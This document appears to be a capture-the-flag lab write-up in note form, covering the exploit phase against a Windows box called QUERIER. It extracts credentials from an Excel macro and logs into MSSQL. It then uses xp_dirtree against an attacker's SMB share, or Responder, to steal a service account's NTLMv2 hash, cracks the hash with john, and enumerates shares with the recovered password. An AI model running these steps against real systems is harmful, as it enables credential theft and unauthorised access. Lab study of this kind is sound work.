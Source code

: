 


---
---
---

## Exploit

### a. Attack Vector
***basic enumeration***
> - `binwalk "Currency Volume Report.xlsm"`
> - `binwalk "Currency Volume Report.xlsm" | grep -o -e "name.*"`
> > - ![[Pasted image 20221125212458.png]]
> 
> - `sudo -H pip install -U oletools[full]`
> > - instaling python-oletools to work with the macro xlsm files.
> 
> - `olevba "Currency Volume Report.xlsm"`
> > - ![[Pasted image 20221125213813.png]]
> > > - Password = PcwTWTHRwryjc$c6
> > > - Username = Reporting
> 
> ***SQL server***
> [How to capture MSSQL credentials with xp_dirtree, smbserver.py | by Mark Mo | Medium](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)
> - `impacket-mssqlclient reporting@10.10.10.125 -windows-auth`
> > - ![[Pasted image 20221125214823.png]]
> > - aasd
> 
> ***responder***
> - `responder -I tun0`
> > - Responder logs everything to a fiel called **responder.db**
> > > - ![[Pasted image 20221125225512.png]]
> > 
> > - `sqlite3 Responder.db`
> > > - `.schema`
> > > - `select * from responder;`
> > > - And you will get the output again
> 
> ==OR==
> - `mkdir smb-share`
> - `impacket-smbserver --smb2-support smb-share darkrai`
> - `xp_dirtree "\\10.10.14.13\darkrai\"`
> > - We are trying to steal the hash of this service.
> 
> - `nano pass.txt` *and paste the hash*
> - `john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt pass.txt`
> > - ![[Pasted image 20221125222745.png]]
>
> - `smbmap -u mssql-svc -p corporate568 -d QUERIER -H 10.10.10.125`
> > - ![[Pasted image 20221125230209.png]]
> > - If we had ADMIN access on C then we could have used psexec to gain a shell.

---
---